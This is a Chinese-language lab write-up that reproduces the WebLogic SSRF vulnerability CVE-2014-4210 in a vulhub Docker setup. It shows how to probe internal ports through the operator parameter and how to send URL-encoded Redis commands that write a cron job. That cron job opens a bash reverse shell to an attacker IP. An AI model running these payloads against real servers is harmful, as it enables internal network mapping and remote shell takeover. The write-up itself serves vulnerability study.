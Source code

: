 # 漏洞复现——weblogic ssrf漏洞复现CVE-2014-4210

# 漏洞概述

Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，获取内网资产信息，进而攻击内网中的Redis、fastcgi等脆弱组件

# 影响范围

weblogic 10.0.2weblogic 10.3.6

# 漏洞复现

1. SSRF发现与内网探测

   - 使用vulhub的环境，进入~/vulhub/weblogic/ssrf目录，docker启动环境

     ``` shell
     sudo docker-compose up -d
     ```

   - 启动后访问http://靶机IP:7001/uddiexplorer/无需登录即可查看uddiexplorer应用。

     ![1.png](img/weblogicSSRF/Image1.png)

   - 点击页面左侧的Search Public Registries，F12查看源码，发现Public Registry处的operator参数直接传入了外部URL

     ![2.png](img/weblogicSSRF/Image2.png)

   - 使用BurpSuite进行抓包，查看查询请求中的operator参数

     ![3.png](img/weblogicSSRF/Image3.png)

   - 修改operator参数为IP:PORT形式，当端口可以访问时，会返回一个404 eror

     ![4.png](img/weblogicSSRF/Image4.png)

   - 修改PORT为未开放的不存在端口，会返回”could not connect over HTTP to server“

     ![5.png](img/weblogicSSRF/Image5.png)

   - 如果访问的端口对应的服务是非HTTP协议的，则会返回 did not have a valid SOAP content-type

     - docker的容器IP都是以172.*开头的，首先探测下172.18.0.1:6379，返回404 eror说明该服务存在，但172.18.0.1是docker子网的网络号之一，可以理解为一个网关，不是独立容器，探测172.18.0.2:6379，返回could not connect over HTTP to server，说明容器不存在，172.18.0.1/24网段下没有docker容器。

     - 探测172.19.0.1:6379，返回404 eror，存在网络号，探测172.19.0.2:6379，返回 did not have a valid SOAP content-type，说明存在docker容器，且服务非HTTP协议。

       ![6.png](img/weblogicSSRF/Image6.png)

     

2. 反弹shell

   - 发送三条redis命令，将反弹shell的脚本写入目录/etc/crontab，该目录下是一个默认自动执行的一些crontab定时服务命令，注意将IP换成实际的攻击机器的IP

     ``` shell
     set 1 "\n\n\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.176.132/21 0>&1\n\n\n\n" 
     config set dir /etc/ 
     config set dbfilename crontab 
     save
     ```

   - 将上述命令进行URL编码

     ``` shell
     set%201%20%22%5Cn%5Cn%5Cn%5Cn*%2F1%20*%20*%20*%20*%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.176.132%2F21%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0Aconfig%20set%20dir%20%2Fetc%2F%0Aconfig%20set%20dbfilename%20crontab%0Asave*
     ```

     

   - 3、先在攻击机中开启nc端口监听4、将URL编码后的Payload增加换行符，Redis通过换行符来分隔每条命令，换行符是”\r\n“，URL编码就是”%0D%0A“，然后添加到数据包中发送给服务器

     ``` shell
     set%201%20%22%5Cn%5Cn%5Cn%5Cn*%2F1%20*%20*%20*%20*%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.176.132%2F21%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave
     ```